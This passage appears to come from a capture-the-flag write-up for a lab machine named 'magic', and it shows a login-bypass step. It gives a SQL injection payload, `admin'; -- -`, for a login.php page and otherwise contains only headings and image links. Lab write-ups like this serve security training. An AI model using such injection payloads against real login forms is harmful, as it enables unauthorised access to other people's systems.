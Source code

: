 # User Flag
---

## Shell as www-data


### Login bypass

> http://magic/login.php

Payload : `admin'; -- -`

![](/assets/obsidian/6f2f554d69f2bba77543b2cba35c2d03.png)

![](/assets/obsidian/cca9679f114fb208702fe5e15be7ea70.png)

